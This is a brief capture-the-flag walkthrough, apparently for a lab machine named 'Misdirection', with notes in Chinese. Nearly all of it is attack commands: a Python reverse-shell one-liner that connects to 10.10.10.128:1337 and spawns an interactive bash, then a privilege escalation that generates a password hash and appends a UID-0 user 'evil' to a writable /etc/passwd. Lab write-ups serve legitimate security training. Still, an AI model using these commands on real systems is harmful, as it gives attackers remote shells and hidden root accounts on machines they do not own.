







# Misdirection












```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.128",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```






passwd可写。

直接增加用户即可

首先先制作用户的hash

```bash
openssl passwd -1 -salt evil abcdef
```


`$1$evil$PJUrXHFg5Juh42jLCKQs10`

然后仿照passwd文件格式伪造用户信息

```bash
evil:$1$evil$PJUrXHFg5Juh42jLCKQs10:0:0::/root:/bin/bash
```

```bash
echo 'evil:$1$evil$PJUrXHFg5Juh42jLCKQs10:0:0::/root:/bin/bash' >> /etc/passwd
```


